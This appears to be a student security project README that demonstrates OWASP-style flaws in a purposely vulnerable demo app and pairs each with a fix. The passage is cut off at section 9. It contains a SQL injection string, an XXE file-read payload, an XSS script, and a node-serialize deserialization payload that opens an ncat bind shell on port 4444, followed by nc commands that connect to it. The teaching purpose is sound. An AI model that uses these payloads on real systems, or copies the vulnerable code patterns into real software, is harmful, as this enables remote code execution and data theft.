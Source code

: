 # CS467: Website Security Research Project

This project will explore the web vulnerabilities outlined in the article <a href="https://www.vpnmentor.com/blog/top-10-common-web-attacks/">Top 10 Common Web Attacks: The First Steps to Protect Your Website</a>. These vulnerabilities are categorized as follows:

* [Injection](#1-injection)
* [Broken Authentication](#2-broken-authentication)
* [Sensitive Data Exposure](#3-sensitive-data-exposure)
* [XML External Entities](#4-xml-external-entities)
* [Broken Access Control](#5-broken-access-control)
* [Security Misconfiguration](#6-security-misconfiguration)
* [Cross-Site Scripting](#7-cross-site-scripting)
* [Insecure Deserialization](#8-insecure-deserialization)
* [Using Components with Known Vulnerabilities](#9-using-components-with-known-vulnerabilities)
* [Insufficient Logging & Monitoring](#10-insufficient-logging--monitoring)

These vulnerabilities will be explored through a demonstration app, datapotato:
<img src="https://github.com/howed-neighbor/CS467/blob/main/public/readmeImages/datapotato_black_outlines.svg#gh-light-mode-only" width=50% height=50%>
<img src="https://github.com/howed-neighbor/CS467/blob/main/public/readmeImages/datapotato_white_outlines.svg#gh-dark-mode-only" width=50% height=50%>

The code provided in this repo intentionally redacts the credentials in the <code>dbcon.js</code> file required to connect to the SQL database.

# 1. Injection 
<details>
  <summary>
    Details
  </summary>
  
### Description

  |Source|Definition|
  |---|---|
  |Wikipedia|**Code injection** is the exploitation of a computer bug that is caused by processing invalid data|
  |OWASP|**Injection** is an attacker’s attempt to send data to an application in a way that will change the meaning of commands being sent to an interpreter|
  |IBM|This type of attack allows an attacker to **inject code** into a program or query or inject malware onto a computer in order to execute remote commands that can read or modify a database, or change data on a web site|
  
  These definitions are intentionally broad, as this concept appears in many environments. Our sources above list multiple subcategories of injection vulnerabilities:
  
  * Wikipedia: SQL injection, Cross-site scripting, Dynamic evaluation vulnerabilities, Object injection, Remote file injection, Format specifier injection, Shell injection
  * OWASP: SQL queries, LDAP queries, Operating system command interpreters, Any program invocation, XML documents, HTML documents, JSON structures, HTTP headers, File paths, URLs, A variety of expression languages
  * IBM: Blind SQL Injection, Blind XPath Injection, Buffer Overflow, Format String Attack, LDAP Injection, OS Commanding, SQL Injection, SSI Injection, XPath Injection
  
  ---
  
### Demonstration
  We'll focus on a specific flavor of injection vulnerability, SQLi (SQL injection).
  
  In this example, users are able to submit a request for data, for any individual user:
  
  > <img src="https://github.com/howed-neighbor/CS467/blob/main/public/readmeImages/enterUserName1.PNG">
  
  This sends the following request to our SQL table:
  
  ```
  SELECT userName, userData FROM `Users` WHERE userName='user1'
  ```
  
  Result:
  
  |userName|userData|
  |---|---|
  |user1|user1's data|
  
  Now, let's inject a logical statement that our developers probably didn't intend to be used.  
  (This statement closes an open string, adds a logical OR, and comments out the rest of the SQL request body):
  
  > <img src="https://github.com/howed-neighbor/CS467/blob/main/public/readmeImages/enterUserName2.PNG">
  
  ```
  SELECT userName, userData FROM `Users` WHERE userName='user1' or TRUE
  ```
  
  This returns all rows in our table, because TRUE always evaluates to TRUE:
  
  |userName|userData|
  |---|---|
  |user1|user1's data|
  |user2|user2's data|
  |user3|user3's data|
  |[...]|[...]|
  
  You can try a live demo of this here (requires connection to OSU VPN):
  <a href="http://flip3.engr.oregonstate.edu:37773/injection#demonstration">[LINK TO WEB APP]</a>
  
  In this example, we've allowed the user to execute arbitrary SQL queries on our database. Our data is no longer secure or reliable. 
 
  ---  

### Remediation
  
  Remediation for injection vulnerabilities are specific to the context of the application. We will provide recommendations for the specific example above.
  
  OWASP advises vulnerabilities like the SQLi example above are failures of the **injection context**, specifically the SQL query. OWASP recommends the first defense in this context is escaping, in which we ensure data is treated like data, rather than an extension of the functionality or logic the query.
  
  MariaDB provides a method to bind data values to our query at the time it is executed, preventing the injection of additional commands.
  
  We'll convert our SQL query to a paramaterized query:
  
  ```
  SELECT userName, userData FROM `Users` WHERE userName=?
  ```
  
  This time, if you didn't enter a valid userName, you won't retrieve any results, since "user1' or TRUE; #" is not a valid user. This query is hardened against arbitrary SQL commands entered by our users.
 
  ---
  
### Citations: Injection
  "Code injection." Wikipedia.  
  https://en.wikipedia.org/wiki/Code_injection (accessed Jan 29, 2022).
  
  J. Williams. "Injection Theory". OWASP.  
  https://owasp.org/www-community/Injection_Theory (accessed Jan 29, 2022).
  
  "Injection Attacks." IBM.  
  https://www.ibm.com/docs/en/snips/4.6.0?topic=categories-injection-attacks (accessed Jan 29, 2022).
  
  "PREPARE Statement". MariaDB.  
  https://mariadb.com/kb/en/prepare-statement/ (accessed Feb 10, 2022)
</details>

# 2. Broken Authentication
<details>
  <summary>
    Details
  </summary>
  
### Description
  |Source|Definition|
  |---|---|
  |OWASP|(now referred to as Identification and Authentication Failures) Confirmation of the user's identity, authentication, and session management is critical to protect against **authentication-related attacks**|
  |IBM| This type of attack targets and attempts to **exploit the authentication process** a web site uses to verify the identity of a user, service, or application|
  
  This is another broad category. There are many types of authentication in use. IBM divides these attacks into 3 categories:
  * Brute force
  * Insufficient authentication
  * Weak password recovery
  
  Our app won't implement a password recovery system, so we'll focus on the other two attacks.
  
  ---
  
### Demonstration
  The most basic attack in this category is brute force, either guessing credentials or using an automated process to gain access to restricted systems or data.
  
  We've set up an `/admin` route that allows direct read accesss for our web app's data. To access this route, you'll need to know the admin username an password.
  
  To make it easy, we'll pick one of the [OWASP Top 10000 Worst Passwords](https://github.com/OWASP/passfault/blob/master/wordlists/wordlists/10k-worst-passwords.txt). Can you guess which one it is?
  
  > <img src="https://github.com/howed-neighbor/CS467/blob/main/public/readmeImages/admin.PNG">
  
  If you brute-forced this answer and visit the [ADMIN page](http://flip3.engr.oregonstate.edu:37773/admin) (requires connection to OSU VPN), you'll see all our user data.
  
  ---
  
### Remediation
  
  There are multiple ways we can harden our app against this vulnerability.
  
  First, we'll change the password to something harder to guess. Because password strength recommendations vary widely, we'll combine recommendations from a few sources:
  
  |Source|Recommendation|
  |---|---|
  |[OWASP Authentication Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Authentication_Cheat_Sheet.html)|Minimum length of the passwords should be enforced by the application. Passwords shorter than 8 characters are considered to be weak
  |[OWASP Authentication Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Authentication_Cheat_Sheet.html)|Maximum password length should not be set too low, as it will prevent users from creating passphrases. A common maximum length is 64 characters [...] It is important to set a maximum password length to prevent long password Denial of Service attacks.|
  |[IBM Password Guidelines](https://www.ibm.com/docs/en/partnerengagemanager?topic=overview-password-guidelines)|A length of 15-50 characters|
  |[IBM Password Guidelines](https://www.ibm.com/docs/en/partnerengagemanager?topic=overview-password-guidelines)|A combination of at least two-character types from the following options: uppercase[A-Z], lowercase[a-z], number[0-9], and special characters. The valid non-alphabetic characters include the following characters hyphen (-), underscore (_), period (.), and special characters such as !@#$%&|
  
  We'll also use a password strength meter application like [zxcvbn](https://github.com/dropbox/zxcvbn) to ensure the password we pick is safe against brute force attacks. (See also: [interactive web implementation of zxcvbn](https://lowe.github.io/tryzxcvbn/))
  
  Now that we've got our strong password, we'll salt it and hash it using the [Crypto nodejs module](https://nodejs.org/api/crypto.html) before saving it in our database. This fixes two more vulnerabilities:
  
  Salting: This is a randomized string concatenated with the password before hashing, to ensure that if the hashing mechanism is compromised, an attacker can't automatically solve for all the other passwords in the database.
  
  Hashing: This increases the complexity of the plaintext password before saving it to our database, ensuring someone with access to the database can't read the plaintext version of the password.
  
  These changes are impemented for our users in the hardened web app.
  
  ---
  
### Citations: Broken Authentication
  "A07:2021 – Identification and Authentication Failures". OWASP top 10:2021.  
  https://owasp.org/Top10/A07_2021-Identification_and_Authentication_Failures/ (accessed Feb 10, 2022).
  
  "Authentication attacks". IBM.  
  https://www.ibm.com/docs/en/snips/4.6.0?topic=categories-authentication-attacks (accessed Feb 10, 2022).
  
  D. Whitelegg. "Scan your app to find and fix OWASP Top 10 - 2017 vulnerabilities". IBM Developer.  
  https://developer.ibm.com/tutorials/se-owasp-top10/ (accessed Feb 10, 2022).
  
  "10k-worst-passwords.txt". OWASP / passfault.  
  https://github.com/OWASP/passfault/blob/master/wordlists/wordlists/10k-worst-passwords.txt (accessed Feb 10, 2022).

  "Authentication Cheat Sheet". OWASP Cheat Sheet Series.  
  https://cheatsheetseries.owasp.org/cheatsheets/Authentication_Cheat_Sheet.html (accessed Feb 12, 2022).
  
  "Password guidelines". Search in IBM Sterling Partner Engagement Manager.  
  https://www.ibm.com/docs/en/partnerengagemanager?topic=overview-password-guidelines (accessed Feb 12, 2022).
  
  "zxcvbn". dropbox / zxcvbn.  
  https://github.com/dropbox/zxcvbn (accessed Feb 12, 2022).
  
  "demo". zxcvbn tests.  
  https://lowe.github.io/tryzxcvbn/ (accessed Feb 12, 2022).
  
  "Crypto". Crypto | Node.js.  
  https://nodejs.org/api/crypto.html (accessed Feb 12, 2022).

  "How to use the crypto module". Node.js.  
  https://nodejs.org/en/knowledge/cryptography/how-to-use-crypto-module/ (accessed Feb 13, 2022).
 </details>
  
# 3. Sensitive Data Exposure
<details>
  <summary>
    Details
  </summary>
  
### Description
  |Source|Definition|
  |---|---|
  |OWASP|(See "Cryptographic Failures")[...] the focus is on **failures related to cryptography** (or lack thereof) [...] (which) often lead to exposure of sensitive data"
  |vpnMentor|Secret data usually needs to be **protected with encryption** and other cryptographic algorithms|
  
  ---
  
### Demonstration
  
  Any endpoint that can access our user data will be able to see the userData column in plaintext. (Users on the OSU VPN can use the exploit in the [Broken Authentication](#2-broken-authentication) section to access this data.) 
  
  > <img src="https://github.com/howed-neighbor/CS467/blob/main/public/readmeImages/userData.PNG">
  
  ---
  
### Remediation
  
  The most direct route for us to fix this is to encrypt our users' data.
  
  Fortunately, the <code>crypto</code> nodejs module we're using to salt and hash our user passwords also includes <code>cipher</code> and <code>decipher</code> classes we can use to encrypt this part of our database.
  
  (OSU VPN users only) This utility is live on the [/admin route](http://flip3.engr.oregonstate.edu:37773/admin) and you can see a snapshot of the web app utility here.
  
  > <img src="https://github.com/howed-neighbor/CS467/blob/main/public/readmeImages/encrypt1of3.png">
  
  > <img src="https://github.com/howed-neighbor/CS467/blob/main/public/readmeImages/encrypt2of3.png">
  
  > <img src="https://github.com/howed-neighbor/CS467/blob/main/public/readmeImages/encrypt3of3.png">
  
  ---
  
### Citations: Sensitive Data Exposure
  
  "A02:2021 – Cryptographic Failures". OWASP Top 10:2021.  
  https://owasp.org/Top10/A02_2021-Cryptographic_Failures/ (accessed Feb 13, 2022).
  
  Avi. D. "Top 10 Common Web Attacks: The First Steps to Protect Your Website." vpnMentor.  
  https://www.vpnmentor.com/blog/top-10-common-web-attacks/ (accessed Feb 13, 2022).
  
  "Crypto". Crypto | Node.js.  
  https://nodejs.org/api/crypto.html#class-cipher (accessed Feb 16, 2022).
  
</details>

# 4. XML External Entities
<details>
  <summary>
    Details
  </summary>
  
### Description
  
  |Source|Definition|
  |---|---|
  |OWASP|An **XML External Entity attack** is a type of attack against an application that parses XML input. This attack occurs when XML input containing a reference to an external entity is processed by a weakly configured XML parser.|
  |IBM| [Vulnerable software] could allow a remote attacker to obtain sensitive information, caused by an **XML External Entity Injection** (XXE) error when processing XML data. An attacker could declare an entity referencing the content of a local file to obtain sensitive information.|
  
  A basic XML file with a defined entity looks like this:
  ```
  <?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE foo [<!ENTITY bar "This is a fine entity">]>
  <foo>&bar</foo>
  ```
  
  Here's how Firefox and Chrome render this XML:
  
  Firefox:
  > <img src="https://github.com/howed-neighbor/CS467/blob/main/public/readmeImages/fooFirefox.PNG">
  
  Chrome:
  > <img src="https://github.com/howed-neighbor/CS467/blob/main/public/readmeImages/fooChrome.PNG">
    
  ---
  
### Demonstration
  
  The issue at hand is that the [document type declaration](https://www.w3.org/TR/REC-xml/#sec-prolog-dtd) can be configured to access internal or external references.
  
  External entities, such as ones that point to server resources, or malicious URLs, are our primary concern. Here is an example of a potentially harmful XML request (from the [OWASP website](https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing).) This request could send an attacker information about critical system files:
  
  ```
  <?xml version="1.0" encoding="ISO-8859-1"?>
  <!DOCTYPE foo [
    <!ELEMENT foo ANY >
    <!ENTITY xxe SYSTEM "file:///c:/boot.ini" >]>
  <foo>&xxe;</foo>
  ```
  
  Because many modern node libraries do not support expansion of external entities, your researchers were not able to find a library which sufficiently demonstrated this vulnerability compatible with our node setup. In lieu of a live demonstration, please consider the following well-documented examples:
  
  [XML Entity Expansion in NodeJS](https://knowledge-base.secureflag.com/vulnerabilities/xml_injection/xml_entity_expansion_nodejs.html)  
  [XML External Entity Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html)  
  
  ---
  
### Remediation
  
  Developers should consider all of their XML parsing dependencies carefully, and ensure any custom XML parsing implementations have external entity expansion off by default. 
  
  Popular npm XML parsing utilities such as [express-xml-bodyparser](https://www.npmjs.com/package/express-xml-bodyparser) will automatically prevent entities from being defined, by throwing an error if an unescaped ampersand is encountered. Here's what happens when we send an XML POST to our endpoint with an ampersand using this package:
  
  ```
  <?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE foo [<!ENTITY bar "This is a fine entity">]>
  <foo>&bar;</foo>
  ```
  Returns <code>Error: Invalid character entity</code>
  
  In our hardened web app, we'll return a <code>400 BAD REQUEST</code> error if we receive a request of this type. This will limit the types of XML requests we can process, but it will ensure protection against this vulnerability. Try using an API like [Postman](https://www.postman.com/) to send your own XML request to the server.
  
  ---
  
### Citations: XML External Entities
  "XML External Entity (XXE) Processing". OWASP.  
  https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing (accessed Feb 20, 2022).
  
  "IT06733: A vulnerability in XML External Entity (XXE) processing could allow a remote attacker to obtain sensitive information.". IBM Support.  
  https://www.ibm.com/support/pages/apar/IT06733 (accessed Feb 20, 2022).
  
  "XML introduction". MDN Web Docs.  
  https://developer.mozilla.org/en-US/docs/Web/XML/XML_introduction (accessed Feb 20, 2022).
  
  "Load external DTDs (entity/entities) (local and remote) if a pref is set". Bugzilla.  
  https://bugzilla.mozilla.org/show_bug.cgi?id=22942 (accessed Feb 20, 2022).
  
  "express-xml-bodyparser". npmjs.com.  
  https://www.npmjs.com/package/express-xml-bodyparser (accessed Feb 20, 2022).
  
  "Prolog and Document Type Declaration". w3.org.  
  https://www.w3.org/TR/REC-xml/#sec-prolog-dtd (accessed Feb 20, 2022).
  
  "Postman API Platform". Postman.  
  https://www.postman.com/ (accessed Feb 20, 2022).
  
  "XML Entity Expansion in NodeJS". SecureFlag.  
  https://knowledge-base.secureflag.com/vulnerabilities/xml_injection/xml_entity_expansion_nodejs.html (accessed Feb 23, 2022).
  
  "XML External Entity Prevention Cheat Sheet". OWASP Cheat Sheet Series.  
  https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html (accessed Feb 23, 2022).
  
</details>

# 5. Broken Access Control
<details>
  <summary>
    Details
  </summary>
  
### Description
  
  |Source|Definition|
  |---|---|
  |Wikipedia|In the fields of physical security and information security, **access control** (AC) is the selective restriction of access to a place or other resource|
  |OWASP|**Access control** enforces policy such that users cannot act outside of their intended permissions. Failures typically lead to unauthorized information disclosure, modification, or destruction of all data or performing a business function outside the user's limits|
  |IBM|**Access control** mechanisms determine which operations the user can or cannot do by comparing the user's identity to an access control list (ACL)|
  
  In our first 5 vulnerabilities, this category affects the most code. Every piece of data, endpoint, and access mechanism should be considered with respect to this topic.
  
  OWASP goes on to provide a [broad list of vulnerabilities](https://owasp.org/Top10/A01_2021-Broken_Access_Control/) in this category:
  
  * Violation of the principle of least privilege or deny by default, where access should only be granted for particular capabilities, roles, or users, but is available to anyone.  
  * Bypassing access control checks by modifying the URL (parameter tampering or force browsing), internal application state, or the HTML page, or by using an attack tool modifying API requests.  
  * Permitting viewing or editing someone else's account, by providing its unique identifier (insecure direct object references)  
  * Accessing API with missing access controls for POST, PUT and DELETE.  
  * Elevation of privilege. Acting as a user without being logged in or acting as an admin when logged in as a user.  
  * Metadata manipulation, such as replaying or tampering with a JSON Web Token (JWT) access control token, or a cookie or hidden field manipulated to elevate privileges or abusing JWT invalidation.  
  * CORS misconfiguration allows API access from unauthorized/untrusted origins.  
  * Force browsing to authenticated pages as an unauthenticated user or to privileged pages as a standard user.  

  ---
  
### Demonstration
  
  Our app is currently vulnerable to two of the access control failures above: bypassing access control checks by modifying the URL and accessing the API with missing access controls.
  
  During development, we created a route (OSU VPN users only) [/adminTest](http://flip3.engr.oregonstate.edu:37773/adminTest) to test admin functionality. This page was created before we implemented Session authentication. However, we forgot to remove this route or remediate the access control on this page. Even though there is no link to this page on our site, if someone discovered this route they'd be able to access many of our admin utilities normally protected with userName/password authentication.
  
  The other access control failure can be demonstrated with any utility that can send an HTTP request. Here, we'll use [Postman](https://www.postman.com/). 
  
  Our web app will process any valid HTTP request sent to it without requiring authentication. Let's POST to [/admin](http://flip3.engr.oregonstate.edu:37773/admin) and use the admin utility to reset the database: 
  
  > <img src="https://github.com/howed-neighbor/CS467/blob/main/public/readmeImages/postToAdmin.png">
  
  We were able to do this because there's no access control on that route. All of our custom user data has been lost!  
  
  ---
  
### Remediation
  
  In our hardened app, we'll make to two changes to remediate these failures:
  
  1. The <code>/adminTest</code> route will be removed
  2. All reqest types sent to the <code>/admin</code> route will require the same Session authentication confirming the user that is signed in has admin credentials.
  
  Additional remediations we could take include:
  * Using more advanced authentication such as JWTs
  * Enforcing "least privilege" principles where certain utilities are only available to specific user groups
  * Increased logging
  * Disabling directory browsing
  
  ---
  
### Citations: Broken Access Control
  "A01:2021 – Broken Access Control". OWASP Top 10:2021.  
  https://owasp.org/Top10/A01_2021-Broken_Access_Control/ (accessed Feb 21, 2022).
  
  "Authentication versus access control". IBM Watson Content Analytics.  
  https://www.ibm.com/docs/en/wca/3.0.0?topic=security-authentication-versus-access-control (accessed Feb 21, 2022).
  
  "Access Control". Wikipedia.  
  https://en.wikipedia.org/wiki/Access_control (accessed Feb 21, 2022).
  
  "Postman API Platform". Postman.  
  https://www.postman.com/ (accessed Feb 21, 2022).
  
</details>

# 6. Security Misconfiguration
<details>
  <summary>
    Details
  </summary>
  
### Description
  |Source|Definition|
  |---|---|
  |OWASP|**Security Misconfiguration** can happen at any level of an application stack, including the network services, platform, web server, application server, database, frameworks, custom code, and pre-installed virtual machines, containers, or storage.|
  |The Hackerish|**Security Misconfiguration** happens when the responsible party fails to follow best practices when configuring an asset.  This asset can be an operating system, a web server, software running on a machine, etc. Security Misonfigurations don't affect web assets only.  Any component which requires a configuration is subject to this vulnerability.  This means network devices, hardware, email services, etc. can suffer from this vulnerability.|
  |Guardiacore|**Security Misonfiguration** is simply defined as failing to implement security controls for a server or web application, or implementing the security controls, but doing so with error.|
  
  ---
### Demonstration
  From the definitions, it is clear that **Security Misoncfiguration** affects more than just the web application, which in our case is the nodejs application, the libraries we are using, and our database.
  
  For the purposes of this demonstration, we'll focus on the Server itself, which in this case if the Oregon State flip3 server where our vulnerable web application is hosted.  More specificically we'll look at configuration of the ports and protocols.
  
  One of the tenets of good network security is to only open network ports that are necessary. However, because of the nature of the flip3 server, it is required to be fairly open, otherwise it would not be possible to host student web applications - including ours.
  
  To put in perspective how open the flip3 server is, I conducted an nmap scan:
  
  <img src="https://github.com/howed-neighbor/CS467/blob/main/public/images/flip3_nmap_scan1.png" alt="flip_scan1" height="50%" width="100%">
  <img src="https://github.com/howed-neighbor/CS467/blob/main/public/images/flip3_nmap_scan2.png" height="50%" width="100%">
  
  The simple nmap scan can provide an attacker a wealth of information, but more importantly, each open port/protocal provides an attacker a potential attack vector against the system or application.
  
  ---
### Remediation
  For obvious reasons, we do not have the privileges necessary to harden the flip3 server, however, we do have those privileges on our AWS instance.
  
  In our AWS instance we can control which ports/protocols are exposed through the use of **Security Groups** and **Network ACLs**.  For our purposes, we'll only use the Security Group.
  
  Each EC2 instance in our AWS Virtual Private Cloud (VPC) must have a security group associated with it.  A security group acts a firewall.  We can define a range of source IPs from the Internet that communicate with our EC2 instance, and we can define the ports on our EC2 instance that can be reached.
  
  We created the following rule:
  <img src="https://github.com/howed-neighbor/CS467/blob/main/public/images/aws_security_group.png" width="100%">
  
  This only exposes the TCP port 37773 to anyone on the Internet (0.0.0.0), significantly reducing the attack surface area of our system/application.
  
  Screenshot of an nmap scan before the security group was modified in AWS:
  <img src="https://github.com/howed-neighbor/CS467/blob/main/public/images/aws_scan_before.png" width="100%">
  
  Screenshot of an nmap scan after the security group was modified in AWS:
  <img src="https://github.com/howed-neighbor/CS467/blob/main/public/images/aws_scan_after.png" width="100%">
  
  As we can see, the information a potential attacker is able to obtain is limited, but more importantly our attack surface area is greatly reduced.
  
  ---
### Citations: Security Misconfiguration
  "Security Misconfiguration". OWASP.  
  https://owasp.org/www-project-top-ten/2017/A6_2017-Security_Misconfiguration (accessed Feb 22, 2022).
  
  "Security Misconfiguration Explained". The Hackerish.  
  https://thehackerish.com/owasp-security-misconfiguration-explained/ (accessed Feb 19, 2022).
  
  "What is Security Configuration and How to Avoid It" Guardiacore.  
  https://www.guardicore.com/blog/understanding-and-avoiding-security-misconfiguration/ (accessed Feb 19, 2022).
</details>

# 7. Cross-Site Scripting
<details>
  <summary>
    Details
  </summary>
  
### Description
  
  |Source|Definition|
  |---|---|
  |Wikipedia|**XSS** is a type of security vulnerability that can be found in some web application. XSS attacks enable attackers to inject **client-side scripts** into web pages viewed by other users.|
  |OWASP|**XSS** attacks are a type of injection, in which malicious scripts are injected into otherwise benign and trusted websites.|
  |IBM<|**XSS** is a computer security vulnerability that allows malicious attackers to inject client-side script into web pages viewed by other users.|

  In summary, XSS is an attack on vulnerable web applications that allows a malicious actor to inject client-side script, e.g. javascript, into web pages.
                
  ---
### Demonstration
  In this first example, we will start off with benign input. Here's what users of the web app will see when they type **Hello World!** and select "Submit" in this example.
    
  > <img src="https://github.com/howed-neighbor/CS467/blob/main/public/readmeImages/xssHelloWorld.png">
    
  This posts the following to our web application, which is then rendered by our express handlebars templating engine.

  ```
  req.body.userInput
  ```
    
  Result:
  
  > <img src="https://github.com/howed-neighbor/CS467/blob/main/public/readmeImages/xssDemonstrationResult.png">
    
  Now we'll inject a script into the web app, something the developers probably didn't intend to be used.
    
  Here's what users of the app will see when they type **&lt;script&gt;alert(42)&lt;/script&gt;** and select "Submit".
                
  > <img src="https://github.com/howed-neighbor/CS467/blob/main/public/readmeImages/xssScript.png">
  
  Result:
  
  > <img src="https://github.com/howed-neighbor/CS467/blob/main/public/readmeImages/xssScriptResult.png">
  
  In this example, we've allowed the user to inject a client-side script into our web application.
  
  ---
### Remediation
  There many methods to remediate XSS vulnerabilities. Most techniques revolve around sanitizing user input.
        
  Our web application is succeptible to XSS because the handlebars engine renders user provided input exactly as written.

  Specifically, the vulnerable piece of code in our handlebars template is:

  ```
  {{{input}}}
  ```

  Use of the triple brackets will render all user input exactly as written.

  We can prevent script injection by using double brackets as so:

  ```
  {{input}}
  ```

  Users can again attempt to inject the XSS script again into our web application:

  **&lt;script&gt;alert(42)&lt;/script&gt;** and select "Submit".
  
  > <img src="https://github.com/howed-neighbor/CS467/blob/main/public/readmeImages/xssRemediation.png">
  
  Use of double brackets in handlebars escapes special characters such as '&lt;' and '&gt;', which are often used in XSS attacks.
  
  ---
### Citations: Cross-Site Scripting
  "Code injection." Wikipedia.  
  https://en.wikipedia.org/wiki/Cross-site_scripting (accessed Feb 14, 2022).  
  
  KirstenS. "Cross Site Scripting (XSS)". OWASP.  
  https://owasp.org/www-community/attacks/xss/ (accessed Jan 29, 2022).  
  
  "Cross Site Scripting (XSS) Filter." IBM.  
  https://www.ibm.com/docs/en/sc-and-ds/8.2.0?topic=manager-cross-site-scripting-xss-filters (accessed Feb 15, 2022).  
  
  "Expressions." Handlebars Online User Guide.  
  https://handlebarsjs.com/guide/expressions.html (accessed Feb 10, 2022).
  
</details>

# 8. Insecure Deserialization
<details>
  <summary>
    Details
  </summary>
  
### Description
  In order to understand what **Insecure Deserialization** is, we must first define **serialization.**
  
  Wikipedia defines **serialization** as the process of translating a data structure or object state into a format that can be stored (e.g. in a file or memory buffer) or transmitted (e.g. over a network) and reconstructed later (possibly in a different computer envrinoment). When the resulting series of bits is re-read according to the serialization format, it can be used to create a semantically identical clone of the original object.
  
  |Source|Definition|
  |---|---|
  |Search Security|**Inseucre Deserialization** is a vulnerability in which an untrusted or unknown data is used to either inflict a DoS, execute code, bypass authentication or further abuse logic behind the application. **Serialization** is the proces that converts an object to a format that can be later restored. **Deserialization** is the opposing process which takes data from a file, stream or network and rebuilds it into an object.|
  |Portswigger|**Insecure Deserialization** is when user-controllable data is deserialized by a website. This potentially enables an attacker to manipulate serialized object in order to pass harmful data into the application code.|
  
  ---
### Demonstration
  Our web application makes use of the node package **"node-serialize"** to serialize and deserialize objects.
  
  In this first example, we will start off with benign input. We will serialize a simple JSON object and then deserialize it. Type:
  
  ```
  {test:123}
  ```
  
  and select "Submit". Here's what that looks like in our [web app (OSU VPN users only)](http://flip3.engr.oregonstate.edu:37773/insecureDeserialization):
  
  > <img src="https://github.com/howed-neighbor/CS467/blob/main/public/readmeImages/insecureDeserialization1.PNG">
  
  We'll now deserialize the serialized object, which should return the original input <code>{test:123}</code>. Here's the result from our web app.

  > <img src="https://github.com/howed-neighbor/CS467/blob/main/public/readmeImages/insecureDeserialization2.PNG">
  
  We'll now utlize a more nefarious input which will allow us to create a BIND Shell on our server. In the web app, type in the following:
  
  ```
  {"rce":"_$$ND_FUNC$$_function (){require('child_process').exec('ncat -nlvp 4444 -e /bin/sh', function(error, stdout, stderr) { console.log(stdout) });}()"}
  ```
  
  In a command line terminal, preferably linux, connect to the bind shell.
  
  If visiting the web application on our AWS instance:
  
  ```
  nc -vn 157.175.92.30 4444
  ```
  
  If visiting the web application on the flip server:
  ```
  nc -vn 127.0.0.1 4444
  ```
  
  The vulnerable piece of code in our web application is:
  
  ```
  var serialze = require('node-serialize')
  var obj = req.body.userInput
  var deserialized = serialize.unserialize(obj)
  ```
  
  We are deserializing unsanitized user input.
  
  The issue lies in the fact that the node-serialize package allows for the serialization and deserialization of JSON objects which have functions defined.
  
  In nefarious payload, we created a JSON object with the key **"rce"** which had function definend as its value.
  
  According to [Aleski Turin](https://www.acunetix.com/blog/web-security-zone/deserialization-vulnerabilities-attacking-deserialization-in-js/), a serialized object with a function defined has the following form:
  
  ```
  {"anything_here":"_$$ND_FUNC$$_function (){сonsole.log(1)}"}
  ```
  
  Anything after the special tag <code>$$ND_FUNC$$</code> is evaluated in the eval function.  This is what allows malicious users to execute arbitrary code on our web application.
  
  ---
### Remediation
  We can mitigate/prevent this vulnerability from being exploited by sanitizing user input.
  
  In our sanitized code, we make use of the <code>JSON.stringify</code> function:
  
  ```
  var serialze = require('node-serialize')
  var obj = req.body.userInput
  var sanitized = JSON.stringify(obj)
  var deserialized = serialize.unserialize(sanitized)
  ```
  
  If we attempt to enter the malicious code again, and try to connect to the BIND shell, it will fail.
  
  If you enter the following code again in our sanitized form, here's what you'll see:
  
  ><img src="https://github.com/howed-neighbor/CS467/blob/main/public/readmeImages/insecureDeserialization3.PNG">
  
  Our web application can now safely deserialize the user input:
  
  ```
  {test:123}
  ```
  
  If you attempt to connect to the BIND shell, it no longer works. Try it:
  
  If visiting the web application on our AWS instance:
  
  ```
  nc -vn 157.175.92.30 4444
  ```
  
  If visiting the web application on the flip server:
  
  ```
  nc -vn 127.0.0.1 4444
  ```
  
  ---
### Citations: Insecure Deserialization
  "Deserialization vulnerabilities: attacking deserialization in JS" Acunetix.  
  https://www.acunetix.com/blog/web-security-zone/deserialization-vulnerabilities-attacking-deserialization-in-js/ (accessed Feb 20, 2022).
  
  "Exploiting Node.js deserialization bug for Remote Code Execution". OPSECX.  
  https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/ (accessed Jan 29, 2022).
  
  "Serialization" Wikipedia.  
  https://en.wikipedia.org/wiki/Serialization (accessed Feb 15, 2022).
  
  "What is Insecure Deserialization." Acunetix.  
  https://www.acunetix.com/blog/articles/what-is-insecure-deserialization/ (accessed Feb 10, 2022).
</details>

# 9. Using Components with Known Vulnerabilities
<details>
  <summary>
    Details
  </summary>
  
### Description
  |Source|Definition|
  |---|---|
